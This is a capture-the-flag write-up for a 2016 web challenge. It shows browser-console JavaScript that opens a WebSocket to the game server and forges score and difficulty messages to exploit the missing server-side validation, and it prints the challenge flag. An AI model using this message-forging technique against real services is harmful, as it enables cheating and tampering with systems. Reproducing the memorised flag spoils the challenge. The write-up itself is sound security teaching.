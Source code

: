 # Cyber Security Challenge 2016: Tap dat ass part 1


**Category:** Web Security  
**Points:** 40  
**Challenge designer:** Tom Van Goethem  
**Description:**  
> The first part of this challenge is simple, all you need to do is smack enough asses, and you will be presented with a flag!
> 
> Note: this challenge is built with some of the latest and coolest HTML features. If it does not work in your browser, try using the latest Chrome version.

[File Here](challenge-source-files/src.zip)

>Hint: WebSockets are so much fun! You should try it out for yourself!

## Write-up
- lacking server-side validation should be one of the first things one should check

By looking at the server-side code, we can see that the first flag will be sent if our score is higher than 9000 in a certain round. Unfortunately, this is rather hard, if not impossible, to do by hand. 
There are a few options we can use, but they all come down to the same thing: we need to set up a WebSocket connection with the server by ourselves, and fake our score.

In our browser console, we can enter following code to set up the WebSocket, set the difficulty level to a very high number, and fake a "tap".

```js
var ws = new WebSocket('ws://' + window.location.hostname + ':' + window.location.port + '/ass-tapping');
ws.addEventListener('open', function() {
   ws.send(JSON.stringify({
        "action": "updateDifficulty",
        "parameter": {
            "playerId": "FOOBAR123", // can be pretty much any value
            "difficulty": 31337
        }
    }));
});
ws.addEventListener('message', function(msg) {
    var data = JSON.parse(msg.data);
    if (data.action == 'firstFlag') {
        ws.close();
        alert('Flag: ' + data.parameter);
    }
    else if (data.action == 'update') {
        var round = data.parameter.round;
        ws.send(JSON.stringify({
            "action": "increaseScore",
            "parameter": {
                "playerId": "FOOBAR123",
                "roundNumber": round // this has to to match the actual round number
            }
        }));
    }
});
```
The server will then spit out the flag.
 
##Solution
d0nk3ys_h4v3_s0uls_4s_w3ll
## Other write-ups and resources
